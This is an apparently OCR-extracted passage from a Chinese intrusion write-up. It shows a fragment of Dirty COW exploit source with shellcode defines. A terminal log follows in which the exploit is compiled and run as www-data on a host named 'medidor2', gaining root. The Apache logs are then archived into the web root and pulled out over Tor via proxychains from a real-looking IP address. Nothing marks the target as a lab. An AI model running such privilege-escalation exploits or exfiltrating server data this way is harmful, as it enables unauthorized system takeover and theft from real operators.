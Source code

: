 1. `#define SHELLCODE "\x31\xc0\xc3"`
2. `#define SPACE_SIZE 256`
3. `#define LIBC_PATH "/lib/x86_64-linux-gnu/libc.so.6" ## 改为　/lib/i386-linux-gnu/libc.so.6`
4. `#define LOOP 0x1000000`
5. 
6. `#ifndef PAGE_SIZE`
7. `#define PAGE_SIZE 4096`

Give me root 　:提权成功。

1. `www-data@medidor2:/tmp$gcc -Wall -o hello dirtycow-mem.c -ldl -lpthread`
2. `www-data@medidor2:/tmp$ ls`
3. `hello`
4. `www-data@medidor2:/tmp$ chmod +x hello`
5. `www-data@medidor2:/tmp$ id`
6. `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
7. `www-data@medidor2:/tmp$ ./hello`
8. `[*] range: b7573000-b7716000]`
9. `[*] getuid = b762bd10`
10. `[*] mmap 0xb73cb000`
11. `[*] exploiting (patch)`
12. `[*] patched (madviseThread)`
13. `[*] patched (procselfmemThread)`
14. `root@medidor2:/tmp# [*] exploiting (unpatch)`
15. `[*] unpatched: uid=33 (madviseThread)`
16. `[*] unpatched: uid=33 (procselfmemThread)`
17. 
18. `root@medidor2:/tmp# id`
19. `uid=0(root) gid=0(root) groups=0(root)`

打包Apache日志。

1. `✘ ⚡ root@kali ls /var/log/apache2`
2. `access error other_vhosts_access.log`
3. 
4. `✘ ⚡ root@kali tar zcvf /var/www/apache2-log.tar.gz /var/log/apache2/`
5. `✘ ⚡ root@kali /tmp ltor wget http://187.85.134.4/apache2-log.tar.gz`
6. `[proxychains] config file found: /data/app/local/proxychains_local_tor/proxychains.conf`
7. `[proxychains] preloading /data/app/local/proxychains_local_tor/libproxychains4.so`
8. `[proxychains] DLL init`
9. `--2019-01-09 22:09:00-- http://187.85.134.4/apache2-log.tar.gz`
10. `正在连接 187.85.134.4:80... [proxychains] Strict chain ... 127.0.0.1:9050 ... 187.85.134.4:80 ... OK`
11. `已连接。`
12. `已发出 HTTP 请求正在等待回应... 200 OK`
13. `长度9258688 (8.8M) [application/x-gzip]`
14. `正在保存至: “apache2-log.tar.gz”`
15. 
16. `apache2-log.tar.gz 100%[===================>] 8.83M 29.6KB/s 用时 5m 45s`
17. 
18. `201-11-11 11:11:11 (26.2 KB/s) - 已保存 “apache2-log.tar.gz” [9258688/9258688])`

### 5.5 分析日志
